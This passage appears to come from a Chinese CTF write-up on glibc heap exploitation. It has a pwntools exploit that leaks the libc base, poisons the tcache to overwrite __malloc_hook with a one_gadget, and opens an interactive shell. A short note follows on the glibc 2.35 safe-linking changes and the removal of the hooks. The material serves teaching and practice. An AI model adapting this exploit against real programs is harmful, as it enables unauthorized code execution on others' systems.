 ```python
	
def show(index):
	p.sendlineafter(b">>",b'3')
	p.sendlineafter(b'idx? ',str(index).encode())
	
def edit(index,content):
	p.sendlineafter(b">>",b'4')
	p.sendlineafter(b'idx? ',str(index).encode())
	p.sendlineafter(b'content : ',content)

# gadget
one_gadget1 = 0xe3afe
one_gadget2 = 0xe3b01 
one_gadget3 = 0xe3b04

# leak libc_base
create(0,0x1000)
create(1,0x10)
delete(0)
show(0)

p.recvuntil(b'content : ')
leak = u64(p.recv(6).ljust(8,b'\x00'))
libc_base = leak - 2018272
log.success("libc_base: " + hex(libc_base))

malloc_hook = libc_base + libc.sym['__malloc_hook']
one_gadget = libc_base + one_gadget2

create(2,0x68)
create(3,0x68)
delete(3)
delete(2)
edit(2,p64(malloc_hook))

create(4,0x68)
create(5,0x68)

edit(5,p64(one_gadget))
create(6,0x10)

p.interactive()
```

## heap-2.35
### 思路

glibc2.35，tcache的next指针指向经PROTECT_PTR处理的指针，并且加了内存对齐检测
取消了hook机制，虽然libc中仍然有这些符号，但已经没有作用了
- __free_hook
- __malloc_hook
- __realloc_hook
- __memalign_hook
- __after_morecore_hook
